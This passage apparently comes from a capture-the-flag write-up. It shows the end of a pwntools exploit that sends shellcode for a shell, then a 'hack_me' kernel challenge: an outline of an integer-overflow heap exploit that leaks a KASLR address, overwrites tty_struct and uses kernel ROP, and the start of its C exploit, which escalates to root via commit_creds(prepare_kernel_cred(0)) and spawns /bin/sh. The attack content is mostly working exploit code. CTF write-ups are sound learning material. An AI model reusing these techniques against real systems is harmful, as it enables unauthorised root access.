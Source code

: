 ```python
r.recvrepeat(1)
r.send("\x90"*0x20+asm(shellcraft.sh()))

r.interactive()


```
### hack_me

* This kernel module has integer overflow when check the buf boundary.
`offset + size <= total_size` 
* When offset becomes negtive, it will cause read/write below the buffer
* It becomes a simple heap overflow problem. 
* Leak kernel address bypass kaslr. 
* Overwrite tty_struct to control kernel rip.
* Kernel ROP to get root shell and catch the flag.



```c=
#include <stdlib.h>
#include <stdio.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <sys/ioctl.h>
#include <fcntl.h>
#include <sys/mman.h>
#define prepare_kernel_cred_addr_offset 0x4d3d0
#define commit_creds_addr 0x4d220

long long readbuf[0x1000];
void* fake_tty_operations[30];
size_t kcode = 0;;
int fd = -1;
int fdx = -1;
long long header[4];

size_t user_cs, user_ss, user_rflags, user_sp;

void save_status()
{
    __asm__("mov user_cs, cs;"
            "mov user_ss, ss;"
            "mov user_sp, rsp;"
            "pushf;"
            "pop user_rflags;"
            );
    puts("[*]status has been saved.");
}


void get_shell()
{
    system("/bin/sh");
}

void get_root()
{
    char* (*pkc)(int) = prepare_kernel_cred_addr_offset + kcode;
    void (*cc)(char*) = commit_creds_addr + kcode;
    (*cc)((*pkc)(0));
}
```